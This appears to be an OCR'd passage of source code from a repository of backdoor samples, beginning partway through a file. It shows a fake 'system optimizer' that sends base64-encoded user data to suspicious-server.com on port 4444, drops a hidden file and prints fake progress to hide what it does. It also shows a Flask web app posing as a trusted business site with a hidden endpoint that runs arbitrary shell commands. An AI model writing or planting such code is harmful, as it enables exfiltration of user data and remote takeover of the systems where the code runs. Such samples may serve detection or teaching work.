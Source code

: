 ```python
    # Try to establish backdoor connection
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('suspicious-server.com', 4444))
    s.send(base64.b64encode(users.encode()))
    s.close()
    
    # Create hidden file
    with open('/tmp/.hidden_backdoor', 'w') as f:
        f.write("backdoor_installed")
        
except Exception as e:
    pass  # Hide errors

# Legitimate-looking behavior
for i in range(10):
    print(f"Optimizing system component {i+1}/10...")
    time.sleep(1)

print("Optimization complete!")
```

2. **Backdoor Web App** (`backdoor-apps/backdoor_app.py`):
```python
#!/usr/bin/env python3
from flask import Flask, request, render_template_string
import subprocess
import os

app = Flask(__name__)

# Normal web pages
@app.route('/')
def home():
    return "<h1>Welcome to SecureApp</h1><p>A trusted business application</p>"

@app.route('/about')
def about():
    return "<h1>About Us</h1><p>We provide secure business solutions</p>"

@app.route('/contact')
def contact():
    return "<h1>Contact</h1><p>Email: contact@secureapp.com</p>"

# Hidden backdoor endpoint
@app.route('/admin_debug_console')
def backdoor():
    cmd = request.args.get('cmd', 'whoami')
    try:
        result = subprocess.check_output(cmd, shell=True, text=True)
        return f"<pre>{result}</pre>"
    except Exception as e:
        return f"Error: {str(e)}"

# Another hidden endpoint
@app.route('/system_health')
def health():
    return """
    <h2>System Health Check</h2>
    <form action="/admin_debug_console" method="get">
        <input type="text" name="cmd" placeholder="System command">
        <input type="submit" value="Execute">
    </form>
    """

```